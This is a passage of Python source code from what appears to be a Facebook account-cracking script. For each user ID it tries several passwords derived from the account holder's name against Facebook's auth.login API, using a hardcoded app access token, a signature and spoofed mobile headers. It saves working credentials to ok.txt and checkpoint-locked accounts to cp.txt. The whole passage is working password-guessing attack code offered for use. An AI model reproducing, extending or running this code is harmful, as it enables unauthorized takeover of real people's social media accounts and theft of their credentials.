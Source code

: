 												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in data.json()['error_msg']:
													print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("cp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = name.lower().split(' ')[1] + '12'
													api = 'https://b-api.facebook.com/method/auth.login'
													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
													data = requests.get(api, params=params, headers=headers_)
													if "access_token" in data.text and "EAAA" in data.text:
														print(" \033[1;32m[BRAVO-OK] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("ok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in data.json()['error_msg']:
															print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("cp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = name.lower()
															api = 'https://b-api.facebook.com/method/auth.login'
															params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass7, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
															headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _bravoua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
															data = requests.get(api, params=params, headers=headers_)
															if "access_token" in data.text and "EAAA" in data.text:
																print(" \033[1;32m[Ibrahim>OK] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("ok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in data.json()['error_msg']:
																	print(" \033[1;33m[Ibrahim-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("cp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
																else:
																	pass8 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
																	api = 'https://b-api.facebook.com/method/auth.login'
																	params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass8, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
